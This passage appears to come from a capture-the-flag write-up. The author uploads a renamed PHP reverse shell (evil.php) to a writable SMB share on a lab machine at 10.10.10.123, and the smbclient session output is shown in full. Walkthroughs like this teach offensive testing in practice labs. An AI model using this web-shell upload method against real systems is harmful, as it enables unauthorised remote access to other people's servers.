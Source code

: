 <hr width="250" size="6">


Looking back at the `smbmap` results, we can read and write to the `Development` share.

I get a copy of the php-reverse-shell from `/usr/share/webshells/php/`, rename it `evil.php`, and modify the listening ip and port as required.

Now I need to upload it. with `put evil.php`

```

smbclient //10.10.10.123/Development


Enter WORKGROUP\root's password:                                                                                   
Try "help" to get a list of possible commands.                                                                     
smb: \> ls                                                                                                         
  .                                   D        0  Thu Mar  5 16:49:58 2020                                         
  ..                                  D        0  Wed Jan 23 16:51:02 2019                                         
                                                                                                                   
                9221460 blocks of size 1024. 6338972 blocks available                                              
smb: \> pwd                                                                                                        
Current directory is \\10.10.10.123\Development\                                                                   
smb: \> ls                                                                                                         
  .                                   D        0  Thu Mar  5 16:49:58 2020                                         
  ..                                  D        0  Wed Jan 23 16:51:02 2019                                         
                                                                                                                   
                9221460 blocks of size 1024. 6338960 blocks available                                              
smb: \> put evil.php
putting file evil.php as \evil.php (9.9 kb/s) (average 9.9 kb/s)                                                   
smb: \> ls                                                                                                         
  .                                   D        0  Fri Mar  6 08:18:28 2020                                         
  ..                                  D        0  Wed Jan 23 16:51:02 2019                                         
  evil.php                            A     3461  Fri Mar  6 08:18:28 2020                                         
                                                                                                                   
                9221460 blocks of size 1024. 6338956 blocks available                                              
smb: \>                                                                       

```
